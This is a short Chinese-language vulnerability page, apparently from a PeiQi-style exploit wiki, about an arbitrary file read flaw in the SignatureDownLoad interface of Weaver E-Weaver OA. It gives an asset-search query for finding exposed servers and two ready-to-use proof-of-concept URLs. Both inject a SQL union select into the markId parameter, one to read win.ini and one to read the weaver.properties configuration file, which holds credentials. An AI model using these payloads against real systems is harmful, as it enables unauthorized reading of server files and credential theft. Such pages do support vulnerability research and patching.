 # 泛微OA E-Weaver SignatureDownLoad 任意文件读取漏洞

## 漏洞描述

泛微OA E-Weaver SignatureDownLoad接口存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器任意文件

## 漏洞影响

<a-checkbox checked>泛微OA E-Weaver </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-E-Weaver"</a-checkbox></br>

## 漏洞复现

![img](/assets/PeiQi-Wiki/img/1656689079056-8b37542f-8e1a-4558-a1b2-d863bbb2a136.png)

验证POC

```php
/weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27C:/Windows/win.ini%27
```

![img](/assets/PeiQi-Wiki/img/1656689121217-b38a805a-342b-48d1-9b86-9655dccef5cd.png)

```php
/weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27../ecology/WEB-INF/prop/weaver.properties%27
```

![img](/assets/PeiQi-Wiki/img/1656689196769-3dd2c9b1-43e6-4677-b0be-b170fba04a4b.png)